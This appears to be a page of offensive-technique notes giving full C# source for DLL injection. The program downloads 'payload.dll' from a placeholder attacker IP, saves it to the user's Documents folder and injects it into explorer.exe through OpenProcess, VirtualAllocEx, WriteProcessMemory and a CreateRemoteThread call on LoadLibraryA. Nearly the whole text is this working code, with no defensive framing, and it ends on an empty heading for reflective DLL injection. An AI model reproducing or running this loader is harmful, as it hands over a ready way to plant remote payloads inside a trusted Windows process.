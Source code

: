Retrieves a DLL from a Webserver, saves it to disk and then loads into the explorer process.

```csharp
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace DLLInjection
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            String dllPath = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments) + "\\payload.dll";
            WebClient wc = new WebClient();
            wc.DownloadFile("http://<ip>/payload.dll", dllPath);
            Process[] localByName = Process.GetProcessesByName("explorer");
	    Process process = localByName[0];
	    IntPtr hProcess = OpenProcess(0x001F0FFF, false, process.Id);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllPath), dllPath.Length, out outSize);
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
        }
    }
}
```

### Reflective DLL Injection
